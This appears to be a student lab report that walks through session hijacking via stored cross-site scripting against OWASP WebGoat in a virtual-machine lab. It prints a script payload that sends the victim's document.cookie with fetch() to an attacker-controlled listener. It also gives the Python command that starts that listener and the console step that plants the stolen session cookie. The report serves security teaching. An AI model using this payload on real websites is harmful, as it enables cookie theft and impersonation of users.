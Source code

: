 # Session Hijack using XSS

The Docsify-This version is available [here](https://docsify-this.net/?basePath=https://raw.githubusercontent.com/stefano-chen/Report-Cybersecurity/main&homepage=home.md#/)

## Introduction
A **Session Hijack attack** exploits the web session control mechanism,tipically managed by a session cookie.
This **session cookie**, generated by the web server and sent to the client browser following successful authentication, is a variable-length string that identifies the session.

**Session Hijacking** involves compromising this session cookie, either by stealing or predicting a valid value, to gain **unauthorized** access to the Web Server.
There are several common methods for compromising a session cookie, including:
* Predictable session cookie
* Session Sniffing (e.g. Man-in-the-middle, Man-in-the-browser)
* Client-side attacks (e.g. XSS, malicious JavaScript Codes, Trojans)

In this report, we will demonstrate how to perform **Session Hijack using Cross-Site Scripting (XSS)**.

## What is XSS?
**Cross-Site Scripting (XSS) attacks** are a type of injection where malicious scripts are injected into otherwise benign and trusted websites. These attacks exploit flaws in web applications that use user input in their output without proper validation or encoding.

An attacker can use XSS to send malicious scripts to unsuspecting users. The user's browser, having no way to determine that the script should not be trusted, executes it, allowing the attacker to access cookies or other sensitive information retained by the browser.

XSS attacks are generally categorized into two types: reflected and stored.

* **Reflected XSS Attacks**: These attacks involve scripts that are reflected off a web server, such as in an error message or search result, where the server includes part or all of the input sent to it in the response. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other website. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable website, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a “trusted” server.

* **Stored XSS Attacks**: These attacks involve scripts that are permanently stored on the target server, such as in a database, message forum, visitor log, or comment field. The victim retrieves the malicious script from the server when requesting the stored information.

In the following experiment, we will use a **stored XSS attack** to steal a session cookie.

## Experiment
To demonstrate the simplicity and danger of exploiting a website vulnerable to XSS, we will simulate a stored XSS attack on a vulnerable website to obtain the session cookie of an unsuspecting user.

#### Environment
To simulate the attack, we will use:

* [VMware Workstation Player](https://www.vmware.com/content/vmware/vmware-published-sites/us/products/workstation-player/workstation-player-evaluation.html.html.html): A platform for running virtual machine
* [OWASP WebGoat](https://github.com/WebGoat/WebGoat): A deliberately insecure web application designed to teach web application security lessons
* [Python3](https://www.python.org/about/gettingstarted/): To generate an attacker-controlled HTTP server


We will use three virtual machines:

1. [Kali Linux](https://www.kali.org/get-kali/#kali-platforms) as attacker machine with Python3 installed
2. [Ubuntu](https://ubuntu.com/download/desktop) as Web Server with OWASP WebGoat installed.
3. [Windows](https://www.microsoft.com/en-us/software-download/windows10) as victim machine


#### Network Setup
The virtual machines have the following IP addresses and are inside a [NAT](https://docs.vmware.com/en/VMware-Workstation-Player-for-Windows/17.0/com.vmware.player.win.using.doc/GUID-37EA4A9D-DE43-4159-8982-2DFD9D5959AD.html) network:

| O.S. | IP addresss | Subnet Mask|
| ------ | ----------- | ---- |
| Kali   | 192.168.28.133 | 255.255.255.0 |
| Ubuntu   | 192.168.28.132 | 255.255.255.0 |
| Windows   | 192.168.28.134 | 255.255.255.0 |

### Phase 1: Ping
The first phase involves ensuring network connectivity between the attacker, the web server, and the victim machine. This step is critical because successful communication is required for the attack to proceed. The ping command is used to verify that each machine can reach the others over the network.

On Kali Linux:
```bash
$ ping -c4 192.168.28.132
```

On Windows:
```powershell
> ping 192.168.28.132
```

### Phase 2: Run WebGoat
Running WebGoat involves setting up a deliberately insecure web application on the Ubuntu server. The command:
```bash
$ sudo docker run --name webgoat -it -p 192.168.28.132:8080:8080 webgoat/webgoat
```
pulls the WebGoat Docker image and runs it, exposing it on port 8080. This setup creates a controlled environment where security vulnerabilities, such as XSS, can be safely explored and demonstrated.

### Phase 3: Attacker Account
To begin the attack, the attacker needs an account on the WebGoat application. Using Kali Linux, the attacker opens a browser and navigates to:
```url
http://192.168.28.132:8080/WebGoat/
```
![Attacker Login](images/attacker-login.png) 
The attacker registers a new account by clicking the register button and providing the necessary details. This account will be used to identify and exploit vulnerabilities in the web application.
![Attacker Register](images/attacker-register.png) 

### Phase 4: Identify XSS Vulnerability
The next step is to identify a vulnerability in the WebGoat application. By navigating to the "Cross Site Scripting (stored)" section under "Injection," the attacker accesses a simulated forum where users can post comments.
![xss page](images/xss-page.PNG)
To test for vulnerabilities, the attacker posts a comment with HTML tags: 
```html
<strong> Hello World </strong>
```
![xss test](images/xss-test.PNG)
If the comment is displayed with formatting, it indicates that the application does not properly sanitize input, confirming the presence of an XSS vulnerability.

### Phase 5: Payload Injection
Once the XSS vulnerability is identified, the attacker injects a malicious payload to steal session cookies. The payload:
```javascript
<script>fetch("http://192.168.28.133:9000/?cookie=" + document.cookie)</script>
```
![xss payload](images/attacker-payload.PNG)
is crafted to send the session cookie to the attacker's server. 

This script, when executed by the victim's browser, will fetch all the cookies and send them to the specified URL (the attacker's server).

### Phase 6: Attacker Controlled Server
To receive the stolen cookies, the attacker sets up an HTTP server on Kali Linux. Using the command 
```bash
python3 -m http.server --bind 192.168.28.133 9000
```
![attacker server](images/attacker-server.PNG)
the attacker creates a simple HTTPS server listening on port 9000. This server will capture any incoming HTTP requests, including those generated by the malicious payload.

### Phase 7: Target Access Comment
An unsuspecting user on the Windows VM visits the WebGoat application and views the forum with the injected comment. When the user's browser renders the comment, the embedded script executes, sending the session cookie to the attacker's server. The attacker observes the incoming request on their HTTP server, capturing the session cookie.
![cookie](images/cookie.PNG)


### Phase 8: Use Session Cookie
With the session cookie in hand, the attacker can impersonate the victim. The attacker opens the browser's debugger console (e.g., in Firefox) and uses the command 
```javascript
document.cookie="JSESSIONID=VTEZoDF-sff80Wp4eXg4GVI_yb8-kn5yPlZQ-IvJ"
```
to set their session cookie to the stolen value. This action allows the attacker to assume the victim's session, gaining unauthorized access to the web application with the same privileges as the victim.
![impersonate](images/impersonate.PNG)

## Conclusion
The experiment illustrates the ease with which a stored XSS attack can be used to perform session hijacking, revealing significant vulnerabilities in web applications that fail to properly sanitize user inputs. By injecting a malicious script into a vulnerable web application, an attacker can steal session cookies from unsuspecting users, allowing the attacker to impersonate the victim and gain unauthorized access to sensitive information and functionalities within the web application.


## References and Inspirations
* Exploiting XSS-stealing cookies, https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e
* Cross Site Scripting, https://owasp.org/www-community/attacks/xss/
* Cross-Site Scripting Explained and Demostrated, https://youtu.be/PPzn4K2ZjfY?si=7MS2tBcXuaxEAoRR
* Session Hijacking Attack, https://owasp.org/www-community/attacks/Session_hijacking_attack